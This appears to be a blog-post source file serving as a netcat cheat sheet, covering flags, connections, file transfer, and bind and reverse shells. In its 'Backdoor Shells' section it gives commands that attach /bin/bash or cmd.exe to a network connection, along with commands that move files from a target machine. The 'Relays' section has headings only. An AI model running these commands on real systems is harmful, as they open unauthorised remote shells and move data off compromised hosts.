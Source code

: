 ```yaml
---
layout: post
title:  "Netcat"
categories: Netcat
tags:  nc netcat shell backdoor
author: Trelis
---
```


* content
{:toc}

# Description
This simple utility reads and writes data across TCP or UDP network connections. It is designed to be a reliable back-end tool to use directly or easily drive by other programs and scripts. At the same time, it is a feature-rich network debugging and exploration tool, since it can create almost any kind of connection you would need, including port binding to accept incoming connections. 




# Fundamentals
In order to establish a connection, a client and a listener are needed. First of all, there must be a netcat listening at some port in the target machine:
```
nc -l -p LocalPort
``` 
With the following the attacker machine is able to establish the connection:
```
nc IP Port
```
Both the client and listener take input from STDIN 
and send data received from the network to STDOUT

# Flags
-l: Listen mode (default is client mode)
-L: Listen harder (supported only on Windows version of Netcat). This option makes Netcat a persistent listener which starts listening again after a client disconnects
-u: UDP mode (default is TCP)
-p: Local port (In listen mode, this is port listened on. In client mode, this is source port for all packets sent)
-e: Program to execute after connection occurs, connecting STDIN and STDOUT to the program
-n: Don’t perform DNS lookups on names of machines on the other side
-z: Zero
-I/O mode (Don’t send any data, just emit a packet without payload)
-wN: Timeout for connects, waits for N seconds after closure of STDIN. A Netcat client or listener with this option will wait for N seconds to make a connection. If the connection doesn’t happen in that time, Netcat stops running.
-v: Be verbose, printing out messages on Standard Error, such as when a connection occurs
-vv: Be very verbose, printing even more details on Standard Error

# File Transfer
## File from client to target
Target (listening):
```
nc -l -p LocalPort > outfile
```
Client:
```
nc -w3 IP Port < infile
```

## File from target to client
Target (listening):
```
nc -l -p LocalPort < inflie
```
Client:
```
nc -w3 IP Port > outfile
```

# Backdoor Shells
## Linux
Listening
```
nc -l -p LocalPort -e /bin/bash
```
Connect
```
nc IP Port -e /bin/bash
```

## Windows
Listening
```
C:\ nc -l -p Port -e cmd.exe
```
Connect
```
nc IP Port -e cmd.exe
```


# Relays
## Linux

## Windows